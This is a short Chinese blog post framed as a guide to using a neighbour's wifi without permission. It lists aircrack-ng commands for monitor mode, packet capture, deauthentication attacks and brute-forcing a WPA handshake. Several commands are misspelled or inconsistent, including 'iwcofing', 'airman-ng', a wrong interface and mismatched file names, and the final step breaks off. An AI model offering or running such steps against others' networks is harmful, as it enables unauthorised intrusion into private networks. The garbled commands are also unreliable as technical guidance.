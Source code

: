 4.---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress eth0
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress eth0

8. 暴力破解：aircrack-ng outfile1.cap -w /